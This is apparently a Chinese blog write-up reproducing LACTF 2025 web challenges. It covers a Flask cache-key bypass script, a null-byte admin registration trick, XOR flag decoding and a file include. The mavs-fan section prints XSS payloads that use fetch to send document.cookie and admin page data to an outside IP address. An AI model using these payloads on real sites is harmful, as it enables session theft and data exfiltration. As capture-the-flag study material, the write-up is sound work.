






+++
title = "LACTF2025"
slug = "lactf2025"
description = "很有意思"
date = "2025-03-01T19:36:24"
lastmod = "2025-03-01T19:36:24"
image = ""
license = ""
categories = ["赛题"]
tags = ["xss"]
+++

之前的一个国际赛，但是时间冲突了，所以并没有参加，现在来复现一下，谢谢dbt师傅在群里和我说还有这样的好比赛

# remake

```
docker stop $(docker ps -aq) && docker rm -f $(docker ps -aq) && docker rmi -f $(docker images -q)
docker exec -it 56ab294e58a3 /bin/bash
```

## Cache It to Win It!

```
scp -r -P 19793 "C:\Users\baozhongqi\Desktop\cache-it-to-win-it" root@27.25.151.48:/opt/CTFDocker 
```

要自己填充一个flag，还有可能会超时，把超时时间提高就可以正常启动了，进入之后发现是一个很简单的东西，就只有uuid，只有99才能拿到flag，也就是check路由这里肯定有洞，看代码

```python
from flask import Flask, request, jsonify, g, Blueprint, Response, redirect
import uuid
from flask_caching import Cache
import os
import mariadb
import datetime

app = Flask(__name__)

# Configure caching (simple in-memory cache)
app.config["CACHE_TYPE"] = "RedisCache"
app.config["CACHE_REDIS_HOST"] = os.getenv("CACHE_REDIS_HOST", "redis")
app.config["CACHE_DEFAULT_TIMEOUT"] = 604800  # Cache expires in 7 days
cache = Cache(app)


def get_db_connection():
    try:
        conn = mariadb.connect(
            host=os.getenv("DATABASE_HOST"),
            user=os.getenv("DATABASE_USER"),
            password=os.getenv("DATABASE_PASSWORD"),
            database=os.getenv("DATABASE_NAME"),
        )
        return conn
    except mariadb.Error as e:
        return {"error": str(e)}


# I'm lazy to do this properly, so enjoy this ChatGPT'd run_query function!
def run_query(query, params=None):
    conn = get_db_connection()
    if isinstance(conn, dict):
        return conn

    try:
        cursor = conn.cursor(dictionary=True)
        cursor.execute(query, params or ())

        conn.commit()
        result = {
            "success": True,
            "affected_rows": cursor.rowcount,
            "result": cursor.fetchall(),
        }

        return result
    except mariadb.Error as e:
        print("ERROR:", e, flush=True)
        return {"error": str(e)}
    finally:
        cursor.close()
        conn.close()


@app.route("/")
def index():
    if "id" not in request.cookies:
        unique_id = str(uuid.uuid4())
        run_query("INSERT INTO users VALUES (%s, %s);", (unique_id, 0))
    else:
        unique_id = request.cookies.get("id")
        res = run_query("SELECT * FROM users WHERE id = %s;", (unique_id,))
        print(res, flush=True)
        if "affected_rows" not in res:
            print("ERRROR:", res)
            return "ERROR"
        if res["affected_rows"] == 0:
            unique_id = str(uuid.uuid4())
            run_query("INSERT INTO users VALUES (%s, %s);", (unique_id, 0))

    html = f"""
    <!DOCTYPE html>
    <html>
    <head>
        <title>{unique_id}</title>
    </head>
    <body>
        <h1>Your unique account ID: {unique_id}</h1>
        <p><a href="/check?uuid={unique_id}">Click here to check if you are a winner!</a></p>
    </body>
    </html>
    """
    r = Response(html)
    r.set_cookie("id", unique_id)
    return r


def normalize_uuid(uuid: str):
    uuid_l = list(uuid)
    i = 0
    for i in range(len(uuid)):
        uuid_l[i] = uuid_l[i].upper()
        if uuid_l[i] == "-":
            uuid_l.pop(i)
            uuid_l.append(" ")

    return "".join(uuid_l)


def make_cache_key():
    return f"GET_check_uuids:{normalize_uuid(request.args.get('uuid'))}"[:64]  # prevent spammers from filling redis cache


check_bp = Blueprint("check_bp", __name__)


@check_bp.route("/check")
@cache.cached(timeout=604800, make_cache_key=make_cache_key)
def check():
    user_uuid = request.args.get("uuid")
    if not user_uuid:
        return {"error": "UUID parameter is required"}, 400

    run_query("UPDATE users SET value = value + 1 WHERE id = %s;", (user_uuid,))
    res = run_query("SELECT * FROM users WHERE id = %s;", (user_uuid,))
    g.cache_hit = False
    if "affected_rows" not in res:
        print("ERRROR:", res)
        return "Error"
    if res["affected_rows"] == 0:
        return "Invalid account ID"
    num_wins = res["result"][0]["value"]
    if num_wins >= 100:
        return f"""CONGRATS! YOU HAVE WON.............. A FLAG! {os.getenv("FLAG")}"""
    return f"""<p>Congrats! You have won! Only {100 - res["result"][0]["value"]} more wins to go.</p>
    <p>Next attempt allowed at: {(datetime.datetime.now() + datetime.timedelta(days=7)).isoformat(sep=" ")} UTC</p><p><a href="/">Go back to the homepage</a></p>"""


# Hack to show to the user in the X-Cached header whether or not the response was cached
# How in the world does the flask caching library not support adding this header?????
@check_bp.after_request
def add_cache_header(response):
    if hasattr(g, "cache_hit") and not g.cache_hit:
        response.headers["X-Cached"] = "MISS"
    else:
        response.headers["X-Cached"] = "HIT"

    g.cache_hit = True

    return response


app.register_blueprint(check_bp)


# Debugging use for dev - remove before prod
# @app.route("/clear")
# def clear():
#     cache.clear()
#     return "cache cleared!"


if __name__ == "__main__":
    app.run(host="0.0.0.0", port=5000)

```

进来最开始看到一个sql查询语句，但是写的很安全，因为全是`uuid`，而题目说了利用缓存来得到flag，所以我们直接锁定`/check`，使用`flask_caching`库集成Redis作为缓存后端，想要拿到flag，就得过抽奖次数超过100，但是如果缓存命中，她就不增加次数了，那这里必须要绕过一下



测试之后发现Unicode可以，国际赛的经典姿势，当然这里使用空格%20这种垃圾字符也可以，他识别出来是不一样的，

```python
def normalize_uuid(uuid: str):
    uuid_l = list(uuid)
    i = 0
    for i in range(len(uuid)):
        uuid_l[i] = uuid_l[i].upper()
        if uuid_l[i] == "-":
            uuid_l.pop(i)
            uuid_l.append(" ")

    return "".join(uuid_l)
```

因为他这里只比较大写之后的结果，所以我们通过改变UUID特定位置的大小写生成8种变体（000-111组合），如果是其他位置的话，始终达不到效果

```python
import requests
import re

URL = "http://a.baozongwi.xyz:5000/"

uuid = ""

while len(re.findall("-[a-f]", uuid)) < 3:
    print("UUID received:", uuid)

    uuid = requests.get(URL).cookies.get("id")

uuid = list(uuid)

for i in range(0b111 + 1):
    for idx, c_idx in enumerate([9, 19, 24]):
        if i & (0b1 << idx):
            uuid[c_idx] = uuid[c_idx].upper()
        else:
            uuid[c_idx] = uuid[c_idx].lower()
    print("".join(uuid))

    for j in range(13):
        print("URL", URL + "/check?uuid=" + "".join(uuid) + ("%20" * j))
        r = requests.get(URL + "/check?uuid=" + "".join(uuid) + ("%20" * j))
        print(r.text)

```

运行即可得到flag，

## arclbroth

```
docker build -t arclbroth .
docker run -d --name arclbroth_container -p 3000:3000 arclbroth
```

官方给的docker要缓存很久，所以我觉得可以自己改改，效果是一样的，怎么改就不写了

```js
const crypto = require('crypto');
const path = require('path');
const express = require('express');
const cookieParser = require('cookie-parser');
const { init: initDb, sql} = require('secure-sqlite');

const port = process.env.PORT ?? 3000;
const adminpw = process.env.ADMINPW ?? crypto.randomBytes(16).toString('hex');
const flag = process.env.FLAG ?? 'lactf{test_flag_owo}';

initDb(':memory:');
sql`CREATE TABLE users (
  username TEXT PRIMARY KEY,
  password TEXT,
  arcs INT
)`;
sql`CREATE TABLE sessions (id INT PRIMARY KEY, username TEXT)`;
sql`INSERT INTO users VALUES ('admin', ${adminpw}, 100)`;
console.log(sql`SELECT * FROM users`);

const app = express();

app.use('/', express.static(path.join(__dirname, 'site')));

app.use(cookieParser());
app.use(express.json());

app.use((req, res, next) => {
  const sessId = parseInt(req.cookies.session);
  if (!isNaN(sessId)) {
    const sessions = sql`SELECT username FROM sessions WHERE id=${sessId}`;
    if (sessions.length > 0) {
      res.locals.user = sql`SELECT * FROM users WHERE username=${sessions[0].username}`[0];
    }
  }
  next();
});

app.post('/register', (req, res) => {
  const username = req.body.username;
  const password = req.body.password;

  if (!username || typeof username !== 'string') {
    res.status(400).json({ err: 'provide a username owo' });
    return;
  }

  if (!password || typeof password !== 'string') {
    res.status(400).json({ err: 'provide a password uwu' });
    return;
  }

  const existing = sql`SELECT * FROM users WHERE username=${username}`;
  if (existing.length > 0) {
    res.status(400).json({ err: 'user already exists' });
    return;
  }

  sql`INSERT INTO users VALUES (${username}, ${password}, 10)`;
  const id = crypto.randomInt(281474976710655);
  sql`INSERT INTO sessions VALUES (${id}, ${username})`;
  res
    .cookie('session', id)
    .json({ success: true });
});

app.post('/login', (req, res) => {
  const username = req.body.username;
  const password = req.body.password;

  if (!username || typeof username !== 'string') {
    res.status(400).json({ err: 'provide a username owo' });
    return;
  }

  if (!password || typeof password !== 'string') {
    res.status(400).json({ err: 'provide a password uwu' });
    return;
  }

  const existing = sql`SELECT * FROM users WHERE username=${username}`;
  if (existing.length == 0 || existing[0].password !== password) {
    res.status(400).json({ err: 'invalid login' });
    return;
  }

  const id = crypto.randomInt(281474976710655);
  sql`INSERT INTO sessions VALUES (${id}, ${username})`;
  res
    .cookie('session', id)
    .json({ success: true });
});

app.post('/brew', (req, res) => {
  if (!res.locals.user) {
    res.status(400).json({ err: 'please login' });
    return;
  }

  const { arcs, username } = res.locals.user;

  if (arcs < 2) {
    res.json({ broth: 'no-arcs', arcs });
  } else if (arcs < 50) {
    sql`UPDATE users SET arcs=${arcs - 2} WHERE username=${username}`;
    res.json({ broth: 'standard', arcs: arcs - 2 });
  } else {
    sql`UPDATE users SET arcs=${arcs - 50} WHERE username=${username}`;
    res.json({ broth: flag, arcs: arcs - 50 });
  }
});

app.post('/replenish', (req, res) => {
  if (!res.locals.user) {
    res.status(400).json({ err: 'please login' });
    return;
  }

  const { username } = res.locals.user;
  const arcs = username === 'admin' ? 100 : 10
  sql`UPDATE users SET arcs=${arcs}`;
  res.json({ success: true, arcs });
});

app.get('/info', (req, res) => {
  res.json(res.locals.user);
});

app.listen(port, () => {
  console.log(`http://0.0.0.0:${port}`);
});

```



在这个路由看到如何获得flag，看看怎么获得这个`$arcs`，只要是`admin`就能够得到100个，就成功了，收到应用的最上面，看到是sqlite数据库，注册的时候，发现这里有个点子



诶，如果admin后面有个空字节就可以绕过这个检测，就成功注册了，尝试一下(不是我说，我都分析完了这个docker还没开好？！)

```
username:admin\u0000
password:password
```

抓包改成这样，不然数据会被篡改，就不能成功达到效果，然后brew就好了

## purell

国际赛的xss最是细糠，这里看看这道题 [出题人WP](https://mh4ck3r0n3.github.io/posts/2025/02/08/purell/) xss还可以这么玩？

## lucky-flag

```
scp -r -P 19793 "C:\Users\baozhongqi\Desktop\lucky-flag" root@27.25.151.48:/opt/CTFDocker

docker build -t lucky-flag .
docker run -d --name lucky-flag_container -p 8080:80 lucky-flag
```

进入网页看到是一个很神奇的网页



```js
const $ = q => document.querySelector(q);
const $a = q => document.querySelectorAll(q);

const boxes = $a('.box');
let flagbox = boxes[Math.floor(Math.random() * boxes.length)];

for (const box of boxes) {
  if (box === flagbox) {
    box.onclick = () => {
      let enc = `"\\u000e\\u0003\\u0001\\u0016\\u0004\\u0019\\u0015V\\u0011=\\u000bU=\\u000e\\u0017\\u0001\\t=R\\u0010=\\u0011\\t\\u000bSS\\u001f"`;
      for (let i = 0; i < enc.length; ++i) {
        try {
          enc = JSON.parse(enc);
        } catch (e) { }
      }
      let rw = [];
      for (const e of enc) {
        rw['\x70us\x68'](e['\x63har\x43ode\x41t'](0) ^ 0x62);
      }
      const x = rw['\x6dap'](x => String['\x66rom\x43har\x43ode'](x));
      alert(`Congrats ${x['\x6aoin']('')}`);
    };
    flagbox = null;
  } else {
    box.onclick = () => alert('no flag here');
  }
};
```

将每个字符的字符编码与 `0x62`（十进制的98）进行`^`，我觉得这道题给RE手可能直接秒了，搞出脚本，自己写了半天flag不对，就差几个字符，结果GPT给写出来了

```js
let enc1 = "\\u000e\\u0003\\u0001\\u0016\\u0004\\u0019\\u0015V\\u0011=\\u000bU=\\u000e\\u0017\\u0001\\t=R\\u0010=\\u0011\\t\\u000bSS\\u001f";
let decodedString = JSON.parse(`"${enc1}"`);
let enc2 = decodedString;

// XOR each character with 0x62
let decrypted = [];
for (let i = 0; i < enc.length; i++) {
  decrypted.push(String.fromCharCode(enc2.charCodeAt(i) ^ 0x62));
}

// Join and alert the result
let flag = decrypted.join('');
console.log(flag);
```

## mavs-fan

```
scp -r -P 19793 "C:\Users\baozhongqi\Desktop\mavs-fan" root@27.25.151.48:/opt/CTFDocker 

docker build -t mavs-fan .
docker run -d --name mavs-fan_container -p 3000:3000 mavs-fan
```

进入之后看到是很明显的一个xss，先是抓包测试了一下，可以自己创造帖子，并且访问`/post:id`来拿到结果，在`index.html`看到要用POST插入(~~废话~~)，



这里看到确实是会插入的，先用最基本的让他来访问

```js
<script>fetch('http://156.238.233.9:9999/?a'+document.cookie)</script>
```

成功了但是没有收到，那就写个让bot自己访问admin来的

```js
 r.redirected ? r.text() : r.text()).then(d => fetch('http://156.238.233.9:9999/?flag=' + encodeURIComponent(d)))">
```

结果发现收到的好像是没有什么用，回头看到源码，收到flag是json，所以再改改

```js
 r.json()).then(d => fetch('http://156.238.233.9:9999/?flag=' + encodeURIComponent(d.trade_plan)))">
```

但是我发现好像失败了，但是我仔细看poc，这不科学啊，于是我填充了一个flag到环境里面，仍然是undefined，oh,shit这该死的环境

## **chessbased** 

```
scp -r -P 19793 "C:\Users\baozhongqi\Desktop\chessbased" root@27.25.151.48:/opt/CTFDocker

docker compose build --build-arg NPM_REGISTRY=https://registry.npmmirror.com

docker run -d --name chessbased-app_container -p 3000:3000 chessbased-app
```

看了一下代码，就那几个路由



作为一个出题人的直觉，代码越多题目越简单，不用进行挖掘，这里是include，直接文件包含试试？

```
/render?id=Ruy Lopez
Ruy Lopez

e4 e5 nf3 nc6 bb5 a6 ba4 nf6 0-0 be7 re1 b5 0-0

/render?id=flag
flag

lactf{owo_uwu}
```

## Old Site

musc？调图像的题你放web？

